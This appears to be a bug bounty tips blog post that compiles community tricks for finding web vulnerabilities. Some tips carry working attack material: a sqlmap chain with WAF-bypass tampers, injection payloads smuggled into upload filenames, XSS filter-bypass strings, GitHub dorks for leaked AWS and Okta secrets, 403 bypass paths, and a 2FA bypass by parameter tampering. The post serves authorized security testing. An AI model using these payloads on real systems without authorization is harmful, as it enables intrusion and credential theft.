

# Bug Bounty Tips #8

This is another dose of [bug bounty tips](https://www.infosecmatter.com/bug-bounty-tips/) from the bug hunting community on Twitter, sharing their knowledge for all of us to help us find more vulnerabilities and collect bug bounties.

This is the 8th part and in each part we are publishing 10 or more tips. Let’s start!

## 1\. Intercepting traffic on iOS13 in Burp Suite

By [@Dark\_Knight](https://twitter.com/_Dark_Knight_)  
Source: [link](https://twitter.com/_Dark_Knight_/status/1296485808812302336)

If you are having issues intercepting traffic on iOS13 with Burp Suite, try disabling TLSv1.3. You can do that by either one of these methods:

-   Use the following command line option:  
    `-Djdk.tls.server.protocols=TLSv1,TLSv1.1,TLSv1.2`

-   Or on version 2020.8 and above use the following config:


Now there should be no problem intercepting the traffic.

## 2\. Find SQL injections (command combo)

By [@El3ctr0Byt3s](https://twitter.com/El3ctr0Byt3s)  
Source: [link](https://twitter.com/El3ctr0Byt3s/status/1302706241240731649)

These 5 commands can help to easily identify SQL injection on our target domain:

```bash
subfinder -d target.com | tee -a domains
cat domains | httpx | tee -a urls.alive
cat urls.alive | waybackurls | tee -a urls.check
gf sqli urls.check >> urls.sqli
sqlmap -m urls.sqli --dbs --batch
```

Here’s what’s going on in detail:

1.  First we will find all subdomains under our target domain
2.  Next we will identify all alive web servers running on those subdomains
3.  Waybackurls will fetch all URLs that the Wayback Machine knows about the identified alive subdomains
4.  Now we will filter out URLs that match patterns with potential SQL injection
5.  The final step is to run sqlmap on all identified potentially vulnerable URLs and let it do its magic

**Protip**: If you need to bypass WAF (Web Application Firewall) in the process, add the following options to sqlmap:

```bash
--level=5 --risk=3 -p 'item1' --tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,ifnull2ifisnull,modsecurityversioned
```

Here’s where to get all the tools for this tip:

-   [https://github.com/projectdiscovery/subfinder](https://github.com/projectdiscovery/subfinder)
-   [https://github.com/tomnomnom/waybackurls](https://github.com/tomnomnom/waybackurls)
-   [https://github.com/projectdiscovery/httpx](https://github.com/projectdiscovery/httpx)
-   [https://github.com/tomnomnom/gf](https://github.com/tomnomnom/gf)
-   [https://github.com/1ndianl33t/Gf-Patterns](https://github.com/1ndianl33t/Gf-Patterns) (sqli patterns)

## 3\. Get scope of Bugcrowd programs in CLI

By [@sw33tLie](https://twitter.com/sw33tLie)  
Source: [link](https://twitter.com/sw33tLie/status/1311978448626348037)

There is a new tool in town called [bcscope](https://github.com/sw33tLie/bcscope) which can get you the scope of all bug bounty programs available on [Bugcrowd](https://www.bugcrowd.com/) platform, including the private ones.

All you have to do is to provide your Bugcrowd token like this:

```bash
bcscope -t <YOUR-TOKEN-HERE> -c 2 -p
```



Quite convenient and pretty useful!

Get the tool here:

-   [https://github.com/sw33tLie/bcscope](https://github.com/sw33tLie/bcscope)

## 4\. GraphQL notes for beginners

By [@sillydadddy](https://twitter.com/sillydadddy)  
Source: [link](https://twitter.com/sillydadddy/status/1309403695977648129)

Here’s a GraphQL introduction 101 for bug bounty hunters compiled by [@sillydadddy](https://twitter.com/sillydadddy). This information can help you get up to speed and to get familiar with the GraphQL technology quickly. Here we go:

1.  GraphQL is used by developers for more usability than REST. So mostly it is implemented over existing REST services like a wrapper. So sometimes developers may not configure it properly for ALL endpoints!
2.  Most important thing for attacking GraphQL is to get the schema. For that we need to use introspection queries (it may be disabled). There are two versions of introspection queries. So don’t think the query is disabled if it’s not working – try both!
3.  Check whether you can get hold of GraphQL consoles used by the developers, e.g.:  
    `/graphql   /altair   /playground`  
    etc. etc. (use a [wordlist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/graphql.txt))
4.  Try adding debugging parameter to your requests:  
    `&debug=1`
5.  Look for previous versions, e.g.:  
    `v1/graphql   V2/graphql`  
    etc.
6.  Tools:
    1.  [Altair](https://github.com/imolorhe/altair) web browser plugin to run your tests
    2.  [Graphql-Voyager](https://github.com/APIs-guru/graphql-voyager) for visual representation of schema
    3.  [GraphQl raider](https://portswigger.net/bappstore/4841f0d78a554ca381c65b26d48207e6) Burp Suite plugin extension
7.  Vulnerabilities:
    1.  IDOR (Insecure direct object references)
    2.  Authorization / Access control issues
    3.  Insecure mutations (data modifications) in GraphQL
    4.  Injections e.g.: SQL

Very useful GraphQL 101 indeed!

## 5\. Chaining file uploads with other vulns

By [@manas\_hunter](https://twitter.com/manas_hunter)  
Source: [link](https://twitter.com/manas_hunter/status/1315624930998775808)

When testing file upload functionalities in a web application, try setting the filename to the following values:

-   `../../../tmp/lol.png` —> for path traversal
-   `sleep(10)-- -.jpg` —> for SQL injection
-   `<svg onload=alert(document.domain)>.jpg/png` —> for XSS
-   `; sleep 10;` —> for command injections

With these payloads, we may trigger additional vulnerabilities.

## 6\. GitHub dorks for AWS, Jira, Okta .. secrets

By [@hunter0x7](https://twitter.com/hunter0x7), [@GodfatherOrwa](https://twitter.com/GodfatherOrwa)  
Source: [link1](https://twitter.com/hunter0x7/status/1314149862833876994), [link2](https://twitter.com/GodfatherOrwa/status/1312356753619771393)

Here are some useful GitHub dorks shared by [@hunter0x7](https://twitter.com/hunter0x7) for identifying sensitive information related to Amazon AWS cloud:

```bash
org:Target "bucket_name"
org:Target "aws_access_key"
org:Target "aws_secret_key"
org:Target "S3_BUCKET"
org:Target "S3_ACCESS_KEY_ID"
org:Target "S3_SECRET_ACCESS_KEY"
org:Target "S3_ENDPOINT"
org:Target "AWS_ACCESS_KEY_ID"
org:Target "list_aws_accounts"
```

Here’s another list of GitHub dorks shared by [@GodfatherOrwa](https://twitter.com/GodfatherOrwa) for identifying various other credentials and secrets:

```bash
"target.com" password or secret
"target.atlassian" password
"target.okta" password
"corp.target" password
"jira.target" password
"target.onelogin" password
target.service-now password
some time only "target"
```

**Protip**: While you are doing GitHub dorking, try also [GitDorker](https://github.com/obheda12/GitDorker) (made by [@obheda12](https://twitter.com/obheda12)) which automates the whole process and which contains 400+ dorks in total, for easy bug bounty wins.

Detailed information about GitDorker can be found [here](https://medium.com/@obheda12/gitdorker-a-new-tool-for-manual-github-dorking-and-easy-bug-bounty-wins-92a0a0a6b8d5).

Also check related tip [BBT5-8](https://www.infosecmatter.com/bug-bounty-tips-5-aug-17/#8-github-dorks-for-finding-secrets).

## 7\. Simple reflected XSS scenario

By [@\_justYnot](https://twitter.com/_justYnot)  
Source: [link](https://twitter.com/_justYnot/status/1313695244290912256)

Here’s an interesting bug bounty write-up leading to a reflected XSS (Cross-Site Scripting by visiting a link).

The author was able to successfully identify and exploit XSS despite the fact that the application was filtering some characters and keywords (possibly protected by WAF).

Here’s what [@\_justYnot](https://twitter.com/_justYnot) did in detail:

1.  Run `subfinder -d target.com | httprobe -c 100 > target.txt`
2.  Run `cat target.txt | waybackurls | gf xss | kxss`
3.  Got a URL which had all the special characters unfiltered and the parameter was `callback=`
4.  Tried some basic XSS payloads but they weren’t working, the site was filtering some keywords in the payload (like script and alert)
5.  Then he referred to the [@PortSwigger](https://twitter.com/PortSwigger) XSS cheat sheet ([link](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet))
6.  After trying some payloads, one payload with event as onbegin worked and XSS executed successfully!
7.  Made a good report, sent it to the company last month and got rewarded $$

This is a perfect example why we should never give up when things get difficult. When you’ve got a lead, you have to keep pushing to get the reward!

Here’s list of tools [@\_justYnot](https://twitter.com/_justYnot) used:

-   [https://github.com/projectdiscovery/subfinder](https://github.com/projectdiscovery/subfinder)
-   [https://github.com/tomnomnom/httprobe](https://github.com/tomnomnom/httprobe)
-   [https://github.com/tomnomnom/waybackurls](https://github.com/tomnomnom/waybackurls)
-   [https://github.com/tomnomnom/gf](https://github.com/tomnomnom/gf)
-   [https://github.com/1ndianl33t/Gf-Patterns](https://github.com/1ndianl33t/Gf-Patterns) (xss pattern)
-   [https://github.com/tomnomnom/hacks/tree/master/kxss](https://github.com/tomnomnom/hacks/tree/master/kxss)

## 8\. Database of 500 Favicon hashes (FavFreak)

By [@0xAsm0d3us](https://twitter.com/0xAsm0d3us)  
Source: [link](https://twitter.com/0xAsm0d3us/status/1313780705831215104)

There is a very cool new project called [FavFreak](https://github.com/devanshbatham/FavFreak) which contains around 500 Favicon hashes.

This can be extremely useful during bug bounties, OSINT, fingerprinting etc. as it allows you to easily identify what kind of software is deployed on a particular URL.

The tool allows you to fetch Favicons from a list of URLs and sort them based on their Favicon hash. The usage is very straightforward:

```bash
cat urls.txt | python3 favfreak.py -o output
```

As a result, you will see:

-   Which Favicon hash is on which URL
-   Identified software based on the Favicon hash
-   Summary and statistics


FavFreak can identify pretty much any contemporary software that is widely used nowadays. You can also easily add additional fingerprints.

Get FavFreak from here:

-   [https://github.com/devanshbatham/FavFreak](https://github.com/devanshbatham/FavFreak)

## 9\. XSS firewall bypass techniques

By [@sratarun](https://twitter.com/sratarun)  
Source: [link](https://twitter.com/sratarun/status/1313081925796417536)

Here’s a list of 7 useful techniques on how we can bypass WAF (Web Application Firewall) while exploiting XSS (Cross-Site Scripting) in a web application:

1.  Check if the firewall is blocking only lowercase:  
    `<sCRipT>alert(1)</sCRiPt>`  
    
2.  Try to break firewall regex with new line (\\r\\n), aka. CRLF injection:  
    `<script>%0d%0aalert(1)</script>`  
    
3.  Try double encoding:  
    `%2522`  
    
4.  Testing for recursive filters, if firewall removes the text in bold, we will have clear payload:  
    `<scr**<script>**ipt>alert(1);</scr**</script>**ipt>`  
    
5.  Injecting anchor tag without whitespaces:  
    `<a/href="j&Tab;a&Tab;v&Tab;asc&Tab;ri&Tab;pt:alert&lpar;1&rpar;">`  
    
6.  Try to bypass whitespaces using a bullet:  
    `<svg•onload=alert(1)>`  
    
7.  Try to change request method (POST instead of GET):  
    
    |     |     |     |
    | --- | --- | --- |
    | `GET /?q=xss` | `POST /   q=xss` |     |
    

**Protip**: Check also previously published tip on WAF bypass [BBT7-5](https://www.infosecmatter.com/bug-bounty-tips-7-sep-27/#5-bypass-waf-blocking-javascript-in-xss).

## 10\. List of 12 Android security testing tools

By [@cry\_\_pto](https://twitter.com/cry__pto)  
Source: [link](https://twitter.com/cry__pto/status/1315306273378914305)

This is a compilation of some of the best Android security testing tools available today:

-   [Dex2JAR](https://github.com/pxb1988/dex2jar) - Set of tools to work with Android Dex and Java CLASS files
-   [ByteCodeView](https://github.com/Konloch/bytecode-viewer) - Java & Android APK reverse engineering suite (decompiler, editor, debugger & more)
-   [JADX](https://github.com/skylot/jadx) - Dex to Java decompiler tools for producing Java source code from Android Dex and APK files
-   [JD-GUI](https://github.com/java-decompiler/jd-gui) - A standalone graphical utility that displays Java sources from CLASS files
-   [Drozer](https://github.com/FSecureLABS/drozer) - A comprehensive security testing framework for Android
-   [Baksmali](https://github.com/JesusFreke/smali) - An assembler/disassembler for the Dex format used by Dalvik (Android's Java)
-   [AndroGuard](https://github.com/androguard/androguard) - A swiss army knife for analyzing, decompilation and reversing of Android apps
-   [ApkTool](https://github.com/iBotPeaches/Apktool) - Another swiss army knife tool for reverse engineering Android apps
-   [QARK](https://github.com/linkedin/qark) - Tool to look for several security related Android application vulnerabilities
-   [AndroBugs](https://github.com/AndroBugs/AndroBugs_Framework) - Another analysis tool for identifying security vulnerabilities in Android applications
-   [AppMon](https://github.com/dpnishant/appmon) - An automated framework for monitoring and tampering system API calls of native macOS, iOS and Android apps
-   [MobSF](https://github.com/MobSF/Mobile-Security-Framework-MobSF) - An all-in-one automated mobile security framework supporting Android, iOS and Windows mobile apps

Truly a remarkable list of tools, not just for reversing of Android apps!

Some of them excel in static analysis, some are for dynamic analysis, some of them tackle both, but all of them are open-source and free to use!

## 11\. Tips on bypassing 403 and 401 errors

By [@RathiArpeet](https://twitter.com/RathiArpeet)  
Source: [link](https://twitter.com/RathiArpeet/status/1315593774773334016)

Here's a list of tips on how to bypass 403 Forbidden and 401 Unauthorized errors:

1\. **By adding headers**: X-Originating-IP, X-Remote-IP, X-Client-IP, X-Forwarded-For etc. Sometimes companies whitelist the IP for those who can access sensitive data. These headers take IP address as a value and let you access the resource if the supplied IP matches with their whitelisted ones.

2\. **With unicode chars**: Try inserting unicode characters to bypass the defenses. Try e.g. ℀ = ca, ℁ = sa and many other (check [here](https://github.com/filedescriptor/Unicode-Mapping-on-Domain-names) or [here](https://www.compart.com/en/unicode)). So if /cadmin is blocked, try accessing ℀dmin. Check [this](https://www.youtube.com/watch?v=f1XCvDCO22U) short youtube video on unicode hacking tricks for more details.

3\. **By overriding, overwriting URL with headers**: If `GET /admin` gives you `403 Forbidden`, try to `GET /accessible` (any accessible endpoint) and add any of these HTTP headers:

-   `X-Original-URL: /admin`
-   `X-Override-URL: /admin`
-   `X-Rewrite-URL: /admin`

4\. **Try different payloads**: If `GET /admin` gives you `403 Forbidden`, try accessing:

-   `/accessible/..;/admin`
-   `/.;/admin`
-   `/admin;/`
-   `/admin/~`
-   `/./admin/./`
-   `/admin?param`
-   `/%2e/admin`
-   `/admin#`

5\. **Method switching**: Change the method from GET to POST, and see if you get something..

6\. **Via IP, Vhost**: Access the site via its IP or Vhost to get the forbidden content.

7\. **Fuzzing**: By bruteforcing (fuzzing) files or directories further..

**Protip**: Check also previously published tips related to this: [BBT6-6](https://www.infosecmatter.com/bug-bounty-tips-6-sep-07/#6-trick-to-access-admin-panel-by-adding-20), [BBT4-5](https://www.infosecmatter.com/bug-bounty-tips-4-aug-03/#5-access-admin-panel-by-tampering-with-uri) and [BBT4-6](https://www.infosecmatter.com/bug-bounty-tips-4-aug-03/#6-bypass-403-forbidden-by-tampering-with-uri).

## 12\. Find Kubernetes with Shodan

By [@Alra3ees](https://twitter.com/Alra3ees)  
Source: [link](https://twitter.com/Alra3ees/status/1311542071308832769)

Here are 2 easy ways how to identify Kubernetes in your target organization using [Shodan](https://shodan.io/) CLI and [httpx](https://github.com/projectdiscovery/httpx):

1\. Look for product "Kubernetes":

```bash
shodan search org:"target" product:"Kubernetes" | awk '{print $3 ":" $2}' | httpx -path /pods -content-length -status-code -title
```

2\. Look for port "10250":

```bash
shodan search org:"target" port:"10250" | awk '{print $3 ":" $2}' | httpx -path /pods -content-length -status-code -title
```


Quite handy!

Make sure to have installed the following tools:

-   [https://github.com/achillean/shodan-python](https://github.com/achillean/shodan-python)
-   [https://github.com/projectdiscovery/httpx](https://github.com/projectdiscovery/httpx)

## 13\. Multi-factor (2FA) authentication bypass

By [@N008x](https://twitter.com/N008x)  
Source: [link](https://twitter.com/N008x/status/1313721800916783104)

Here's an interesting tip to bypass 2FA in a web application or a mobile application.

1.Always notice both HTTP requests while logging in - when 2FA is enabled and disabled.

2\. While 2FA is disabled:

-   Request:  
    `{"email":"abc@gmail.com","password":"abc@123","mfa":**null**,"code":""}`
-   Response:  
    `Location: https://vulnerable-site.com/user/dashboard`

3\. While 2FA is enabled:

-   Request:  
    `{"email":"abc@gmail.com","password":"abc@123","mfa":**true**,"code":""}`
-   Response:  
    `Location: https://vulnerable-site.com/v1/proxy/authentication/authenticate`

4\. Now tamper with the parameters and change to `"mfa":**null**,"code":""`

-   Response:  
    `Location: https://vulnerable-site.com/user/dashboard`

Easy and simple 2FA bypass!

## Conclusion

That’s it for this part of the [bug bounty tips](https://www.infosecmatter.com/bug-bounty-tips/).

Massive thanks to all the authors for sharing their tips:

-   [@Dark\_Knight](https://twitter.com/_Dark_Knight_)
-   [@El3ctr0Byt3s](https://twitter.com/El3ctr0Byt3s)
-   [@sw33tLie](https://twitter.com/sw33tLie)
-   [@sillydadddy](https://twitter.com/sillydadddy)
-   [@manas\_hunter](https://twitter.com/manas_hunter)
-   [@hunter0x7](https://twitter.com/hunter0x7)
-   [@GodfatherOrwa](https://twitter.com/GodfatherOrwa)
-   [@\_justYnot](https://twitter.com/_justYnot)
-   [@0xAsm0d3us](https://twitter.com/0xAsm0d3us)
-   [@sratarun](https://twitter.com/sratarun)
-   [@cry\_\_pto](https://twitter.com/cry__pto)
-   [@RathiArpeet](https://twitter.com/RathiArpeet)
-   [@Alra3ees](https://twitter.com/Alra3ees)
-   [@N008x](https://twitter.com/N008x)

Make sure to follow them on Twitter, they will help you stay on top of the bug bounty game!
